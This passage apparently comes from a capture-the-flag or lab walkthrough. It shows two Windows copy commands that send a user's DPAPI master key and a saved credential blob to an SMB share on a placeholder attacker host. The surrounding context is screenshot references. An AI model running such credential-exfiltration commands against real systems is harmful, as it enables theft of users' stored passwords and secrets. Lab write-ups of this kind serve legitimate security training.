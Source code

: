 Then now copy the DPAPI keys to our new share:
![Smb Access](/assets/smbsharecopy.png)

2. Copy the DPAPI master key and credential blob:
```bash
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\556a2412-1275-4ccf-b721-e6a0b4f90407" "\\<Your-IP>\share\masterkey_blob"
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9" "\\<Your-IP>\share\credential_blob"
```

![File Copy](/assets/copyfiles.png)
